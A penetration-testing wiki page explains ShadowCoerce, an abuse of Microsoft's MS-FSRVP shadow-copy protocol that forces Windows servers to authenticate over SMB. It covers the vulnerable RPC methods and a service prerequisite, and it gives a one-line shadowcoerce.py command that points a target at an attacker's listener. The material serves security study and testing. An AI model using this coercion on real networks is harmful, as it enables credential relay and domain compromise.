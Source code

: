 # MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)).

In late 2021, [Lionel GILLES](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

**The coerced authentications are made over SMB**. Unlike other similar coercion methods (MS-RPRN printerbug, MS-EFSR petitpotam), I doubt MS-FSRVP abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP. <mark style="color:orange;">This is just a theory at the time of writing, 29th December 2021, I haven't tested it yet.</mark>

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

![](<../../../.gitbook/assets/File Server VSS Agent Service.png>)

## Practice

The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

{% hint style="success" %}
**Nota bene**: for the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can  required. It is enabled by default in the script.
{% endhint %}

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![](<../../../.gitbook/assets/MS FSRVP abuse example.png>)

{% hint style="info" %}
In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. In short, run the command again if it doesn't work the first time.
{% endhint %}

## Resources

Topotam's tweet: [https://twitter.com/topotam77/status/1475701014204461056](https://twitter.com/topotam77/status/1475701014204461056)

Topotam's slides: [https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir](https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir)

{% file src="../../../.gitbook/assets/PetitPotam-SLIDES-RTFM_OSSIR.pdf" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
